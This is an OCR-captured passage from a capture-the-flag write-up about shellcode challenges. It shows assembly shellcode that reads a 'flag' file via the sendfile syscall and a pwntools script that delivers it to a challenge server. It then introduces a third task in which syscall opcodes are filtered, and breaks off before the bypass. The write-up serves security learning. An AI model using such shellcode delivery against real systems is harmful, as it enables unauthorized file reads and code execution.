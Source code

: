 ```python
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
mov rax, 60
mov rsi, 42
syscall

flag:
  .string "flag"

""")

p = remote("0.cloud.chals.io", 0000)
print_clean(p.recvuntil(b"Reading 0x18 bytes from stdin.\n"))
p.sendline(setup)
pause(1)
p.send(shellcode)

print_clean(p.readrepeat())

```

Here's the solution already implemented in 'boilerplate.py'


## Task 3

Same procedure used with the first two challenges, we edit the port value in 'boilerplate.py' and navigate to the target webpage. This time we notice that the stdin bytes are back to 0x1000 but there is new text that states that now syscalls in all their forms are filtered out before, and only before, runtime. The filter only looks for the specific bytes of syscall (0x0f05), sysenter(0x0f34) and int (0x80).
There are also other lines which contiain helpful hints to solve this challenge.
The answer of this challenge lies in how syscalls are actually executed. I we look at the output of the previous challenge:
![Screenshot of the executed shellcode](images/stdout_of_exec_shellcode.png)
